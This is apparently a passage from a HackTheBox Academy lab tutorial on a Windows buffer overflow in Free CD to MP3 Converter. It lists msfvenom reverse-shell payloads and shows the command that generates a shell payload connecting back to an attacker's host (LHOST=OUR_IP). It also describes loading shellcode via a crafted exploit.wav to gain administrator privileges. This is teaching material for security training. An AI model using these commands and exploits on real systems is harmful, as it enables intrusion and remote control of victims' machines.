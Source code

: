If we wanted to get a reverse shell, there are many `msfvenom` payloads we can use, which we can get a list of as follows:

Jumping to Shellcode

```bash
mdn0x@htb[/htb]$ msfvenom -l payloads | grep windows | grep reverse

...SNIP...
    windows/shell/reverse_tcp                           Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_allports                  Spawn a piped command shell (staged). Try to connect back to the attacker, on all possible ports (1-65535, slowly)
    windows/shell/reverse_tcp_dns                       Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_rc4                       Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_rc4_dns                   Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_uuid                      Spawn a piped command shell (staged). Connect back to the attacker with UUID Support
    windows/shell/reverse_udp                           Spawn a piped command shell (staged). Connect back to the attacker with UUID Support
    windows/shell_reverse_tcp                           Connect back to attacker and spawn a command shell
...SNIP...
```

We can use the `windows/shell_reverse_tcp` payload as follows:

Jumping to Shellcode

```bash
mdn0x@htb[/htb]$ msfvenom -p 'windows/shell_reverse_tcp' LHOST=OUR_IP LPORT=OUR_LISTENING_PORT -f 'python'

...SNIP...
buf =  b""
buf += b"\xd9\xc8\xb8\x7c\x9f\x8c\x72\xd9\x74\x24\xf4\x5d\x33"
...SNIP...
```

We can replace the `buf` shellcode in our exploit with either of these and test it. Let's assume we have access to a machine where we have the privilege to run this program as an administrator. We will write the shellcode for local privilege escalation in our exploit, generate our `exploit.wav` file, and load it into the program:

![Command prompt open at C:\Users\htb-student\Desktop>.](https://academy.hackthebox.com/storage/modules/89/win32bof_cmd_admin.jpg)

As we can see, this time, a `cmd.exe` window popped up, and we see in its title `Administrator`, which means that it is indeed running with escalated privileges, matching the user who was running `Free CD to MP3 Converter`.

Try to use the second shellcode to get a reverse shell on your Linux VM/`PwnBox`.

You can download the final exploit code from the following link. Don't forget to rename it from `.txt` to `.py`.
